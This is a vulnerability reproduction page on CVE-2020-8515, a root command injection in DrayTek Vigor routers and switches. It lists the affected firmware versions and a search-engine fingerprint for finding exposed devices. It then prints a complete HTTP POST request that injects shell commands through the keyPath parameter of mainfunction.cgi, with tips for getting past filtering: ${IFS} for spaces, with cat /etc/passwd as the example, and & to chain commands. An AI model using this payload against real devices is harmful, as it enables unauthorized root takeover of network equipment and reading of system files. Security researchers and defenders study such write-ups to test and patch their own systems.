 # DrayTek Enterprise Network Equipment Remote Command Execution CVE-2020-8515

## Vulnerability Description

The DrayTek URI fails to properly handle SHELL characters, and remote attackers can use this vulnerability to submit special requests and can execute arbitrary commands with ROOT permissions.

The remote command injection vulnerability is marked as CVE-2020-8515, which mainly affects DrayTek Vigor network devices, including enterprise switches, routers, load balancers, and VPN gateways.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Vigor2960 < v1.5.1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Vigor300B < v1.5.1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Vigor3900 < v1.5.1</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VigorSwitch20P2121 <= v2.3.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VigorSwitch20G1280 <= v2.3.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VigorSwitch20P1280 <= v2.3.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VigorSwitch20G2280 <= v2.3.2</span>

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">VigorSwitch20P2280 <= v2.3.2</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Vigor 2960"</span>

## Vulnerability reappears

Login page grabbing

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-7231530.png)

The request package is as follows

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1

Connection: close
Content-Length: 67
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.182 Safari/537.36
Content-Type: text/plain; charset=UTF-8
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6

action=login&keyPath=%27%0A%2fbin%2fls%0A%27&loginUser=a&loginPwd=a
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121856526.png)

The parameter where the injection point appears is `keyPath`

Spaces need to be replaced, for example cat /etc/passwd --> cat${IFS}/etc/passwd

You can use & to execute an additional command (URL encoded as %26)

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220314121906002.png)
